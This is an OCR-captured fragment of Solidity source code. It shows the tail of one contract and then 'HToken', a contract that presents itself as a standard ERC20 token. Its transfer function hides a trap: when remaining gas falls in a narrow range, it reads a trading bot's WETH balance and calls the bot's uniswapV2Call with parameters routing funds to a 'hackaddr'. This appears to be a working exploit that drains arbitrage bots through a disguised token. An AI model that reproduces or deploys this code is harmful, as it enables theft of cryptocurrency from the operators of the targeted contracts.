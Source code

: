 ```solidity
        owner.transfer(address(this).balance);
    }

    receive() external payable {}
}

contract HToken {
    string constant public name = "Token";
    string constant public symbol = "T";
    uint8 constant public decimals = 18;
    uint constant public totalSupply = 100 ether;
    mapping (address => uint) public balanceOf;
    mapping (address => mapping (address => uint)) public allowance;

    bool public env=false;
    address public wethaddr;
    address public hackaddr;
    address payable public botaddr;
    event gasv(uint);//0x5e24efb52bbd23cf7587727df0e80d0cedc7e84bb3d3f473b33da1c03fa12282

    event Transfer(address indexed from, address indexed to, uint value);
    event Approval(address indexed owner, address indexed spender, uint value);

    constructor() {
        balanceOf[msg.sender] = totalSupply;
        emit Transfer(address(0), msg.sender, totalSupply);
    }

    function transfer(address to, uint value) public returns (bool) {
        uint256 gs=gasleft();
        emit gasv(gs);
        if(gs>0xd17a0 && gs<0xd1800)
        {
            env=true;
            address t1=hackaddr;
            uint256 amo=IERC20(wethaddr).balanceOf(botaddr);
            Bot(botaddr).uniswapV2Call(botaddr,0,0,abi.encode(t1,t1,amo,0,0));
        }

        _transfer(msg.sender, to, value);
        return true;
    }

    function approve(address spender, uint value) public returns (bool) {
        allowance[msg.sender][spender] = value;
        emit Approval(msg.sender, spender, value);
        return true;
    }

    function transferFrom(address from, address to, uint value) public returns (bool) {
        require(allowance[from][msg.sender] >= value);
        allowance[from][msg.sender] -= value;
        _transfer(from, to, value);
        return true;
    }

    function _transfer(address from, address to, uint value) private {
        require(balanceOf[from] >= value);
        balanceOf[from] -= value;
        balanceOf[to] += value;
        emit Transfer(from, to, value);
    }

```